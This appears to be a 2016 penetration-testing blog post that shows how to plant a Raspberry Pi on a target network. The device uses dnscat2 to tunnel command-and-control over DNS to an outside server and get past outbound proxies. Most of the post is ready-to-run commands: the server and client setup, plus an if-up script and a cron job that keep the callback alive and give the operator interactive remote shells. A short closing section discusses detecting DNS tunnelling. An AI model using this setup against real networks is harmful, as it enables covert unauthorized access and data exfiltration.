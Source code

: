 ```yaml
---
draft: false
author: noah
comments: false
date: 2016-12-19T17:19:40-08:00
layout: post
slug: persistent-dnscat2
title: Persistent C2 with dnscat2
categories:
- Development
- PenTesting
tags:
- pentesting
---
```


Occasionally an environment has strict outbound rules with all traffic going through an authenticated proxy. This hampers exfiltration, especially if you don't currently have valid credentials but need a foothold into an environment without phishing for instance. If we can find a live network jack in some accessible place and the switch hands out an IP address via DHCP along with DNS servers, we can more than likely obtain a foothold into the network.

Thanks to some awesome work by [iagox86](https://twitter.com/iagox86), these directions can be used to configure [dnscat2](https://github.com/iagox86/dnscat2) to automatically connect back to your server over DNS in an automated fashion, similar to a PwnPlug.

## Prerequisites

* A linux box (raspberry pi)
* A domain name
* A VPS


## Directions

### Authoritative DNS
Configure an authoritative name server on the DNS provider account. Using namecheap for instance: 

Manage Domain > Advanced DNS > Add Personal DNS Servers > `ns1 == ip.ad.dre.ss` and `ns2 == ip.ad.dre.ss`

Then, under Domain > Use Custom DNS > use `ns1.examplecom` and `ns2.example.com`

Check this is working by running on the server: `sudo nc -vv -l -u -p53` and from another machine `nslookup ns1.example.com` to verify traffic is hitting this IP. 

### Set up dnscat2 server side

Log in to your VPS, get dnscat2, and install it.

    # apt-get update
    # apt-get -y install ruby-dev git make g++
    # gem install bundler
    # git clone https://github.com/iagox86/dnscat2.git
    # cd dnscat2/server
    # bundle install

And start the server.
 
    # ruby /home/admin/dnscat2/server/dnscat2.rb --secret=verysecret ns1.example.com

### Configure the client/Raspberry Pi

#### Compile the dnscat2 client

On the Raspberry Pi or client

    $ git clone https://github.com/iagox86/dnscat2.git
    $ cd dnscat2/client/
    $ make

At this point you can run dnscat2 with the following to confirm things are working. We'll be coming back to this so no need to keep in running.
    
    $ sudo /home/rpi/dnscat2/client/dnscat --secret=verysecret --dns domain=ns1.example.com,type=TXT
    
* You can also leave out the domain and instead specify an ip: `./dnscat --dns=server=1.2.3.4,port=53` but this is a direct connection out port 53 which may be blocked. It also clearly shows dnscat2 on the wire and will likely be flagged by IDS/IPS
* You can specify various DNS record types but TXT records have been fairly stable for me in the past


#### Configure Persistance

We want our little remote computer to always be connected to us. Every time it's plugged in, dnscat2 should be calling back to our infrastructure. In addition, DNS can be flaky so we always want to ensure there's always a callback.

Make `eth0` ask for a DHCP address everytime it's plugged in

    $cat /etc/networking/interfaces
      auto eth0
      allow-hotplug eth0
      iface eth0 inet dhcp

Add an `interface up` start script

    $cat /home/rpi/start_dnscat2
      #!/bin/bash    
      echo "[+] Starting dnscat2..."
      tmux new -s dnscat -d /home/rpi/dnscat2/client/dnscat ns1.example.com
    $ln -s  /home/rpi/start_dnscat2 /etc/network/if-up.d/start_dnscat2
    $chmod +x /home/rpi/start_dnscat2
    
Configure `cron` to check every five minutes if `dnscat2` is running and start it if not.

    $cat check_and_start_dnscat2.sh 
    #!/bin/bash

    if ! $(ps aux | grep -i "[t]mux" > /dev/null); then
    	echo "[!] Starting dnscat2..."
            /home/rpi/start_dnscat2
    else
    	echo "[+] dnscat2 is running..."
    fi

    $crontab -e
    */5 * * * * /home/rpi/check_and_start_dnscat2.sh


That's it. Now whenever an interface comes up, dnscat2 will make a connection to the configured domain and check every 5 minutes if there is a connection, starting one if not.


### dnscat2 reference
dnscat2 isn't super intuitive so some operational notes for quick reference:

* Start the server under a tmux session
* Within the dnscat2 prompt, type `sessions` to see what you have available and interact with `sessions -i 1`
* Within a session type `help` to list available commands and `shell` then `session -i <window#>` for an interactive shell
* Exit the shell session by `Control-z` or `exit`

### Identifying dnscat2 on the wire

There are number of ways to identify malicious DNS traffic and [this SANS paper](https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152) details quite a few methods of identification. In addition, in this case we're specifying TXT records which aren't too common. [One paper] (http://www.caida.org/publications/papers/2007/dns_anomalies/dns_anomalies.pdf) (Table 1) puts TXT record usage around 7% of a given large sample size. [Another](http://blog.dinaburg.org/2012/11/bitsquatting-pcap-analysis-part-2-query.html) puts that usage at closer to less than 1%.

It's difficult to directly prevent DNS tunnelling but with a bit of traffic and payload analysis an attacker who's not careful is likely to be identified.


### Resources

Most of this info is from iagox86's github and Lenny Zeltser's write up on dnscat2.

* https://github.com/iagox86/dnscat2
* https://github.com/iagox86/dnscat2/blob/master/doc/authoritative_dns_setup.md
* https://zeltser.com/c2-dns-tunneling/
* https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
